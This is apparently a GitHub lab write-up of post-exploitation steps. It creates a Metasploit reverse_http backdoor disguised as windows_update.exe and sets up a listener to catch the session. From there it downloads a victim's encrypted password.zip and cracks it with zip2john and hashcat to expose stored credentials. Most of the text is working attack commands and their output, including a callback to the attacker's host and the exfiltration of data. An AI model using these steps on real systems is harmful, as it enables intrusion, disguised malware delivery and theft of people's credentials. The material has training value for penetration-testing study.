



# Backdoor Access & Encrypted File Cracking

Techniques used after a backdoor connection is established — locating sensitive files on the compromised system, exfiltrating them, and cracking any encryption protecting their contents.

**Scenario:** The victim has already downloaded a backdoor named `windows_update.exe`, sitting on their desktop. The attacker (Kali) waits for the file to be executed to catch the connection, then steals an encrypted zip file (`password.zip`) from the target's desktop and cracks the passwords inside it.

## Payload Creation

| Command | Description |
|---|---|
| `msfvenom --payload windows/x64/meterpreter/reverse_http lhost=[IP] lport=[PORT] --format exe --out windows_update.exe` | Generates a disguised Windows executable payload, named to appear as a legitimate system update |

## Listener Setup

| Command | Description |
|---|---|
| `msfconsole` | Launches the Metasploit Framework console |
| `use exploit/multi/handler` | Loads the generic handler module used to catch any incoming payload connection |
| `set payload windows/x64/meterpreter/reverse_http` | Matches the handler's payload type to the one embedded in the backdoor |
| `set lhost [IP]` | Sets the attacker's listening IP address |
| `set lport [PORT]` | Sets the listening port — must match the port used during payload creation |
| `exploit -j -z` | Starts the listener as a background job, waiting for the victim to execute the file |

**Note:** If the target port is already in use by another process (`Rex::BindFailed` error), either pick a different port or find the process holding it with `lsof -i :PORT`. If the port is changed, the backdoor must be regenerated with the same port.

Once the victim runs the file, the session opens automatically:

```
[*] Meterpreter session 1 opened (192.168.1.104:5555 -> 192.168.1.105:59415)
```

## Session Interaction

| Command | Description |
|---|---|
| `sessions -l` | Lists all active Meterpreter sessions |
| `sessions [id]` | Interacts with a specific session |
| `ls` | Lists files in the current remote directory |
| `cd [folder]` | Navigates the victim's filesystem to locate sensitive files |

The backdoor (`windows_update.exe`) is confirmed sitting on the desktop — matching the scenario where the victim already downloaded it.

**Hashdump attempt (failed):**

```
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: 1168

meterpreter > run post/windows/gather/hashdump
[-] This script requires the use of a SYSTEM user context (hint: migrate into service process)
```

Dumping SAM hashes requires SYSTEM privileges; the current session only has normal user privileges, so it fails. This step was skipped in this scenario — the actual target was the zip file.

## Data Exfiltration

| Command | Description |
|---|---|
| `download [file]` | Transfers the target file from the compromised machine back to the attacker's system |

```
meterpreter > cd Documents
meterpreter > ls
```
→ `password.zip` (222 bytes) found.

```
meterpreter > download password.zip
[*] Downloaded 222.00 B of 222.00 B (100.0%): password.zip -> /home/user/password.zip
```

## Hash Extraction & Cracking

| Command | Description |
|---|---|
| `zip2john [file].zip` | Extracts a crackable hash from an encrypted zip archive |
| `zip2john [file].zip \| cut -d ':' -f 2 > hash.txt` | Isolates only the hash portion needed for cracking, saving it to a file |
| `hashcat --identify hash.txt [wordlist]` | Confirms the exact hash mode before running the attack, since some formats have multiple sub-variants |
| `hashcat -m [mode] hash.txt [wordlist]` | Attempts to recover the plaintext password using dictionary attack |

The output of `zip2john` was in `$pkzip$1*1*2*0*40*34*...*$/pkzip$` format (PKZIP/ZipCrypto encryption — not 7-Zip's AES-256 option, but classic zip encryption). Running `hashcat --identify` against this hash returned two candidates: `17225` (PKZIP Mixed Multi-File) and `17210` (PKZIP Uncompressed). Since `zip2john`'s output showed `cmplen=64, decmplen=52` (differing compressed/uncompressed sizes, indicating the file was compressed), `17210` was ruled out and `17225` was used.

## Password Recovered

| Command | Description |
|---|---|
| `hashcat -m 17225 hash.txt /usr/share/wordlists/rockyou.txt` | The hash is successfully cracked — status shows 'Cracked' and the recovered password (`tinkerbell`) appears directly in the output |

```
Status...........: Cracked
Recovered........: 1/1 (100.00%) Digests (total)
```



## Unlocking the Archive

| Command | Description |
|---|---|
| `-` | The recovered password is used to unlock the encrypted archive, confirming the crack was valid |



## Credentials Exposed

| Command | Description |
|---|---|
| `-` | The decrypted file's contents are revealed, exposing the victim's stored credentials — the end goal of the attack |



## Summary Flow

| Step | Command/Tool |
|---|---|
| Payload creation | `msfvenom` |
| Listener | `exploit/multi/handler` |
| Session management | `sessions`, meterpreter `ls` / `cd` |
| File download | `download` |
| Hash extraction | `zip2john` |
| Hash type detection | `hashcat --identify` |
| Cracking | `hashcat -m 17225` |
